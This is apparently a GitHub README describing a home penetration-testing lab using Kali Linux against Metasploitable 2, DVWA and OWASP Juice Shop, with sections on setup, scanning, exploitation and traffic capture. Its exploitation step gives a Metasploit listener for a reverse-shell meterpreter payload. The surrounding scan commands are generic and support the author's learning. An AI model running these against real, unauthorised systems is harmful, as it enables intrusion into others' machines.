 # Home Lab Setup for Vulnerability Assessment and Penetration Testing

This project involves building and configuring a home lab environment to practice penetration testing techniques. By simulating real-world vulnerabilities, this lab helps in gaining hands-on experience in identifying, exploiting, and mitigating vulnerabilities in web applications and networks.

## Overview

The lab setup includes multiple vulnerable virtual machines (VMs) and uses popular security tools like Nmap, Burp Suite, Metasploit, and Wireshark to perform vulnerability assessments and penetration testing. This environment replicates common vulnerabilities such as SQL Injection, Cross-Site Scripting (XSS), and insecure network services.

## Objectives

- Create a home lab for learning and practicing penetration testing.
- Simulate a real-world network with vulnerable systems.
- Use industry-standard tools to assess and exploit vulnerabilities.
- Document the findings and provide mitigation techniques.

## Lab Components

- **Virtualization Platform:** VirtualBox
- **Virtual Machines (VMs):**
  - **Attacker Machine:** Kali Linux
  - **Vulnerable Systems:** Metasploitable 2, OWASP Juice Shop, DVWA (Damn Vulnerable Web App)

### Tools and Technologies

- **Penetration Testing Tools:** 
  - Burp Suite
  - Nmap
  - Metasploit
  - Nikto
  - OWASP ZAP
  - SQLMap
- **Network Monitoring Tools:**
  - Wireshark
  - Tcpdump
- **Operating Systems:** Kali Linux, Metasploitable 2, OWASP Juice Shop (Docker-based)
- **Scripting Language:** Python
- **Database:** MySQL

## Lab Setup

1. **Install VirtualBox:**
   Download and install VirtualBox to create and manage virtual machines.

2. **Create Virtual Machines:**
   - Kali Linux: Download and set up Kali Linux as the attacker machine.
   - Metasploitable 2: Download this vulnerable VM for network-based vulnerability exploitation.
   - OWASP Juice Shop: Use Docker to set up this intentionally vulnerable web application.
   - DVWA: Install and configure DVWA for testing common web vulnerabilities.

3. **Network Configuration:**
   - Set up a **bridged network** in VirtualBox to allow the attacker machine to communicate with target machines.
   - Verify network connectivity by pinging target VMs from the Kali Linux machine.

## Attack Scenarios
-------------------------------------------------------------------------------------------------------------------------------

### 1. **Vulnerability Scanning**

- **Nmap:** Scan the target machines for open ports and services.
  
  ```bash
  nmap -sV -p- [target IP]
Nikto: Perform a web vulnerability scan against the target web applications.

bash:
nikto -h [target IP or URL]

### 2. **Exploitation**
Metasploit: Exploit vulnerabilities in Metasploitable 2 to gain shell access.

bash:
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST [your attacker IP]
exploit
Burp Suite: Identify and exploit SQL Injection and XSS vulnerabilities on OWASP Juice Shop and DVWA.

### 3. **Network Traffic Analysis**
Wireshark/Tcpdump: Capture and analyze network traffic during attacks.

#### bash:
tcpdump -i eth0 -w traffic_capture.pcap
Key Outcomes:
Identifying Vulnerabilities: Discovered common web vulnerabilities such as SQL Injection, XSS, and weak credentials.

Exploitation Techniques: Gained access to target machines using Metasploit and manual web exploitation techniques.

Mitigation Strategies: Suggested fixes like input validation, secure password policies, and firewall configuration.


#### Challenges Faced
Network Connectivity: Solved issues with bridged network configuration between virtual machines.

Firewall Rules: Adjusted firewall rules on the virtual machines to allow necessary traffic.


Contact
Name: Dhatchina Moorthy G
Email: dhatchu9797@gmail.com

